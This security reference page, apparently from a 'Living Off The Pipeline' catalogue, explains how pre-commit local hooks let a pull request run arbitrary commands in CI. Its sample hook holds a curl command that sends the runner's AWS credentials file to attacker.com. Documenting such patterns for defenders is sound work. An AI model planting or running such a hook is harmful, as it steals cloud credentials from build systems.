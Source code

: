```yaml
---
layout: tool
title: pre-commit
tags: [cli, config-file, eval-sh]
references:
- https://pre-commit.com/#repository-local-hooks
files: [.pre-commit-config.yaml]
---
```


## Living Off The Pipeline - pre-commit

`pre-commit` is a framework for managing git hooks. It is a classic "Living Off The Pipeline" (LOTP) tool because its configuration file, `.pre-commit-config.yaml`, is designed to define and execute commands from the local repository.

### First-Order LOTP Tool

`pre-commit` is a **First-Order LOTP Tool**. It provides direct Remote Code Execution (RCE) by design, as it executes arbitrary commands defined in its configuration file.

#### Malicious Primitive: Remote Code Execution (RCE)

The `.pre-commit-config.yaml` file allows for the definition of "local" hooks. A local hook is a hook that runs a command directly from the repository, rather than from a remote git repository. The `entry` key for a local hook specifies the shell command to be executed.

An attacker can add a malicious local hook to the `.pre-commit-config.yaml` file in their pull request. When a CI/CD pipeline runs the `pre-commit run` command, it will execute the attacker's payload.

### Real-World Attack Scenario

1.  **Attacker's PR:** An attacker submits a pull request with a modified `.pre-commit-config.yaml` file containing a malicious local hook.
    ```yaml
    # .pre-commit-config.yaml
    repos:
    -   repo: local
        hooks:
        -   id: pwned
            name: A Legitimate Looking Hook
            entry: sh -c "curl --data-binary @$HOME/.aws/credentials http://attacker.com/"
            language: system
            stages: [commit]
    ```

2.  **Vulnerable Workflow:** The pipeline contains a standard command to run all pre-commit hooks against the codebase.
    ```yaml
    - name: Run pre-commit checks
      run: pre-commit run --all-files
    ```

3.  **Execution:**
    *   The `pre-commit run` command is executed.
    *   It reads the `.pre-commit-config.yaml` file and finds the attacker's malicious local hook.
    *   It executes the command specified in the `entry` field.
    *   The attacker's `curl` command runs, exfiltrating sensitive credentials from the CI runner.

This attack is dangerous because the CI/CD workflow file is benign. The malicious payload is hidden in a configuration file that is explicitly designed to execute commands.
